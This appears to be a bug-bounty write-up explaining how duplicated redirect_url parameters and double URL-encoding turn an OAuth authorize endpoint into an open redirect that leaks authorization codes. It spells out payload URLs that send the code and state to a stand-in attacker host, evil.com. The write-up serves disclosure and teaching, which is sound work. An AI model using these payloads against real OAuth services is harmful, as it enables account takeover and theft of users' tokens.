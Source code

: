 # Stole the OAuth code or token with an open redirect because of a parameter pollution .

## How:

The application provides a service for third party applications to create an oauth app with it, Lets call our application example.com and the third party one third.com so third.com tells you that you can connect your example.com account with your current account, So inorder to do this the third.com has to ask example.com to make him an oauth application, This is just to demonstrate the feature .

So what happens after you clicking on signin with or connect using example.com, the third.com redirects you to example.com with a request like this ----> 
https://example.com/oauth/authorize?response_type=code&redirect_url=https://third.com/callback&state=[some value] , So by visiting this endpoint example.com will ask you to consent third.com then redirects you back to third.com with the oauth code .


So I thought about what will happen if I added another redirect_url parameter like this https://example.com/oauth/authorize?response_type=code&redirect_url=https://third.com/callback&redirect_url=https://evil.com&state=[some value], By doing this I found that example.com redirects me to third.com but with this intersting way https://third.com/callback/,https://evil.com?code=[some value]&state=[some value], Noticed the  ",http://evil.com", I intercepted the requests after clicking on consent and I have found the app sends the consent request with the two redirect_uri like this redirect_url=https://third.com/callback&redirect_uri=https://evil.com and the response of it is just 200 status code with the code and state in the body of the response.


So I knew that the problem of appending the two redirect_uri is not from the backend code but it's from the client side code, So I thought how can i get an openredirect by this clearly the client code adds the character "," before appending the two redirect_uri like this "=https://third.com/callback,https://evil.com", I thought about removing the https:// part from the second redirect_uri and add a dot charater like this ".evil.com" to make it look like a subdomain but I knew that the subdomain part can't has , or / .


So what about adding @ sign rather than using dot but ofcourse this didn't work also because if you redirected to endpoint like this https://third.com/callback/,@evil.com it won't redirect you to evil.com, So what is about encoding, If tou tried to paste this in a browser admin@evil.com you will see that the browser like firefox treats the first part befor @ as a user name so it's like conecting to a server using ssh if you tried it before, So leave the seond rediredt_uri with a value like this @evil.com and double encode the special characters in the first redirect_uri like this https://third.com%252Fcallback%252F .


Why double encode it? because, If you redirected to an endpoint like this https://third.com%2Fcallback%2F,@evil.com you will see that the browser translates %2F to / and still redirects you to third.com so come over this encode the / two times so that the first time the browser decode it %2F but this second time it won't decode it to / so that the payload will be like this https://third.com%2Fcallback%2F,@evil.vom?code=[some code]&state=[some state] and you be redirected to evil.com with the oauth code and you succedded to steal the oauth code.


So where is the problem? at the backend however that it recieves the first redirect_uri like this https://third.com%252Fcallback%252F but what it does is that it's double decode it then validate it against the stored value and ofcourse it will be true so it will send return the oauth code, but if it didn't double decode it won't br true so even if the user redirected to evil.com he won't be redirected with the oauth code so the impact is low .

The impact is high this application provides oauth apps to third part applications so every third party application is affected by it, It can lead to account take or sensitive data leak .


